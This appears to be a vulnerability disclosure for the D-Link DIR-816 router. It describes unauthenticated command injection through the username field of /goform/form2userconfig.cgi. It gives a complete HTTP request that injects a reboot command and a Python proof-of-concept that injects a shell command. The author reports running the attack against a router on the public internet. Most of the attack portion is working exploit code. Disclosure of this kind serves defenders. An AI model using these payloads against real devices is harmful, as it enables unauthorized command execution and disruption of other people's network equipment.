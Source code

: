 # report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router ,**Firmware version is**  DIR816_A1_FW101CNB04

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.

##### Details

​	goahead Sub_459EF0 ruction in IDA view

![image-20210820151433873](./img/image-20210820151433873.png)

​	Select user account configuration under the maintenance option of router configuration.

![image-20210820151842671](./img/image-20210820151842671.png)

​	 Different from dir-816a2_ FWv1.10CNB05_ R1b011d88210 firmware version this version only needs to close the  command with single quotation marks and then execute our command with a  semicolon ，don't even need to ask for a tokenid

```
POST /goform/form2userconfig.cgi HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Origin: http://xxxx
Connection: close
Referer: http://xxxx/d_userconfig.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

username=123';reboot;'&oldpass=123&newpass=123&confpass=123&deluser=Delete&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send
```

##### POC&&EXP

```python
import requests
import base64
headers={
	"Host":"192.168.33.9",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
	"Content-Type":"Content-Type",
	"Origin":"http://192.168.33.9",
	"Referer":"http://192.168.33.9/d_userconfig.asp",
	"Cookie":"curShow=",
	"Upgrade-Insecure-Requests":"1"
}
data={
	"username":"123';sh;'",#input Command
	"privilege":"2",
	"oldpass":"123",
	"newpass":"MTIz",
	"confpass":"MTIz",
	"deluser":"\xe5\x88\xa0\xe9\x99\xa4",
	"select":"s0",
	"hiddenpass":"192.168.33.9",
	"submit.htm?userconfig.htm":"Send",
	#"tokenid":"35005211"#Packet capture analysis
}
proxies={
'http':'127.0.0.1:8080',
'https':'127.0.0.1:8080'
}
#url="http://149.28.168.149/goform/form2systime.cgi"
url="http://192.168.33.9/goform/form2userconfig.cgi"
t=requests.post(url,headers=headers,data=data)
print t.text
```

##### TEST

![image-20210820152544416](./img/image-20210820152544416.png)

​	GDB stops at the command we are about to execute

![image-20210820152604249](./img/image-20210820152604249.png)	Successfully executed sh

​	I successfully asked the router on the public network to execute the reboot command

